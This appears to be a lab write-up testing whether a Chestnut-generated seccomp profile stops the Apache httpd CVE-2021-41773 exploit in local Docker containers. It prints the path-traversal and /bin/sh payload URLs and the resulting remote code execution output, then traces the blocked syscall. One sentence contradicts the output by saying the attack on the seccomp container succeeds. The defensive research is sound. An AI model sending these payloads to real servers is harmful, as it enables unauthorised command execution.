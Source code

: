 ## Apache httpd – chestnut

### Preparation

For the seccomp container we follow these steps, to create a policy for the `httpd` binary and apply it:

1. Enter the seccomp container:
   `docker exec -it http-chestnut-seccomp-container "bash"`

2. Run the `/tmp/script.sh` which is executing following commands. With the last command the binary will get executed:

```
cd /Chestnut/Binalyzer
python3 /Chestnut/Binalyzer/filter.py /opt/apache/bin/httpd
cp /Chestnut/Binalyzer/cached_results/policy__opt_apache_bin_httpd.json /Chestnut/ChestnutPatcher/
cd /Chestnut/ChestnutPatcher && make
/Chestnut/ChestnutPatcher/rewrite.sh /opt/apache/bin/httpd
```

For the container without seccomp, we just have to start it with following command:
`docker exec -it http-chestnut-normal-container "/opt/apache/bin/httpd"`

### Conduct the exploits

First, we verify the IP addresses of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID   IMAGE                      COMMAND       CREATED          STATUS          PORTS                                                                                  NAMES
74a0ff93c31a   http-chestnut-seccomp      "bash"        36 seconds ago   Up 35 seconds   0.0.0.0:8083->80/tcp, [::]:8083->80/tcp                                                http-chestnut-seccomp-container
c4bb89d13ae4   http-chestnut-normal       "bash"        36 seconds ago   Up 35 seconds   0.0.0.0:8084->80/tcp, [::]:8084->80/tcp
```

_Seccomp_:

The attack on the container with the applied seccomp profile succeeds:

```
❯ python3 exploit.py -u http://localhost:8083
[+] Executing payload http://localhost:8083/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[!] http://localhost:8083 is not vulnerable to CVE-2021-41773

[+] Executing payload http://localhost:8083/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh
[!] http://localhost:8083 is not vulnerable to CVE-2021-41773
```

```
❯ python3 exploit.py -u http://localhost:8084
[+] Executing payload http://localhost:8084/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[!] http://localhost:8084 is not vulnerable to CVE-2021-41773

[+] Executing payload http://localhost:8084/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh
[!] http://localhost:8084 is vulnerable to Remote Code Execution attack (CVE-2021-41773)
[+] Response:
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

### Analysis

As the exploit worked on the container without the seccomp profile, only the one with the enforced profile will be analysed.

_strace output:_
When starting the container with the command `strace -f /opt/apache/bin/httpd` we are able to see that just before the process with the pid `605` was killed with the signal `SIGSYS`, the system call `getegid` was executed.

```
[pid   605] getcwd("/bin", 4096)        = 5
[pid   605] ioctl(0, TCGETS, 0x7ffe8c739680) = -1 ENOTTY (Inappropriate ioctl for device)
[pid   605] geteuid()                   = 1
[pid   605] getegid()                   = 108
[pid   605] +++ killed by SIGSYS (core dumped) +++
```

Further analysis on the host machine with the tool `ausearch` delievers us more insights.
As we can see, the syscall with the number 108 was indeed blocked by seccomp

```
❯ sudo ausearch -m seccomp --start today
----
time->Wed Apr 23 15:48:45 2025
type=SECCOMP msg=audit(1745416125.536:9961): auid=4294967295 uid=1 gid=1 ses=4294967295 pid=382689 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=108 compat=0 ip=0x73ea2f68d867 code=0x0
```

We verify that the system call number `108` maps to `getegid` with the `ausyscall` tool:

```
❯ ausyscall --dump | grep 108
108	getegid
```

The last thing we check is, if the system call number `108` was in the applied seccomp profile. The file `/Chestnut/ChestnutPatcher/policy__opt_apache_bin_httpd.json` shows no presence:

```json
{
  "version": 1,
  "syscalls": [
    0, 1, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 19, 20, 21, 23, 24,
    28, 29, 30, 31, 32, 33, 35, 38, 39, 41, 42, 44, 45, 47, 48, 49, 50, 51, 52,
    54, 55, 56, 59, 60, 61, 62, 63, 64, 65, 66, 67, 72, 73, 74, 75, 78, 79, 80,
    82, 83, 84, 86, 87, 89, 90, 92, 93, 95, 96, 100, 102, 104, 105, 106, 107,
    110, 111, 112, 125, 128, 133, 142, 144, 147, 157, 158, 164, 186, 201, 202,
    229, 231, 232, 233, 234, 235, 257, 262, 288, 291, 292, 302, 318, 116, 22,
    43, 273
  ]
}
```

TODO: add 116, 22, 43, 273, 95 syscalls

